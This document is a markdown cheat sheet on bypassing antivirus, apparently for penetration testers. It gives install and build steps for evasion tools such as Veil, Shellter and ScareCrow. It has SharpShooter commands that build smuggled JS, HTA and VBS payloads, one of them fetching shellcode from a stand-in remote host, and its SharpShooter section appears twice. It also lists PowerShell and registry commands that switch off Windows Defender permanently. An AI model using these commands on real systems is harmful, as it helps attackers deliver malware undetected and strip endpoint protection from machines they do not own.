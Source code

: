 # AV Bypass
## Contents
- [AV Bypass](#av-bypass)
  * [Contents](#contents)
  * [Tools](#tools)
    + [Veil Framework:](#veil-framework-)
    + [Shellter](#shellter)
    + [Sharpshooter](#sharpshooter)
  * [Donut:](#donut-)
  * [Vulcan](#vulcan)
  * [Scarecrow](#scarecrow)
  * [Sharpshooter](#sharpshooter-1)
  * [Commands](#commands)
- [Resources](#resources)
  * [Cheat sheets](#cheat-sheets)
  * [Workshops](#workshops)


## Tools     

### Veil Framework:

Install on Kali

    apt install veil
    /usr/share/veil/config/setup.sh --force --silent

Reference: https://github.com/Veil-Framework/Veil

### Shellter

Source: https://www.shellterproject.com/download/

    apt install shellter


### Sharpshooter

Javascript Payload Stageless: 

    SharpShooter.py --stageless --dotnetver 4 --payload js --output foo --rawscfile ./raw.txt --sandbox 1=contoso,2,3

Stageless HTA Payload: 

    SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./raw.txt --sandbox 4 --smuggle --template mcafee

Staged VBS:

    SharpShooter.py --payload vbs --delivery both --output foo --web http://www.foo.bar/shellcode.payload --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4

Reference: https://github.com/mdsecactivebreach/SharpShooter

## Donut: 

Source: https://github.com/TheWover/donut

## Vulcan

Source: https://github.com/praetorian-code/vulcan


## Scarecrow

Source: https://github.com/optiv/ScareCrow

In Kali: 

    sudo apt install golang

    go get github.com/fatih/color
    go get github.com/yeka/zip
    go get github.com/josephspurrier/goversioninfo

    go build ScareCrow.go

    ./ScareCrow

## Sharpshooter
[SharpShooter](https://github.com/mdsecactivebreach/SharpShooter)   

Javascript Payload Stageless:   

    SharpShooter.py --stageless --dotnetver 4 --payload js --output foo --rawscfile ./raw.txt --sandbox 1=contoso,2,3

Stageless HTA Payload: 

    SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./raw.txt --sandbox 4 --smuggle --template mcafee

Staged VBS:

    SharpShooter.py --payload vbs --delivery both --output foo --web http://www.foo.bar/shellcode.payload --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4


## Commands 
Turning off Windows Defender 

    Set-MpPreference -DisableRealtimeMonitoring $true   

Need to run Powershell as admin and reboot after running command to turn off Windows Defender indefinetly: 

    New-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -name disableantispyware -value 1 -Force


View Windows Defender logs   

    Get-WinEvent 'Microsoft-Windows-Windows Defender/Operational' MaxEvents 10 | Where-Object Id -e 1116 | Format-List 


# Resources  
## Cheat sheets 
https://github.com/sinfulz/JustEvadeBro   
https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell 

[AV Payloads](https://github.com/RoseSecurity/Anti-Virus-Evading-Payloads)    


## Workshops 
https://github.com/BC-SECURITY/Beginners-Guide-to-Obfuscation 




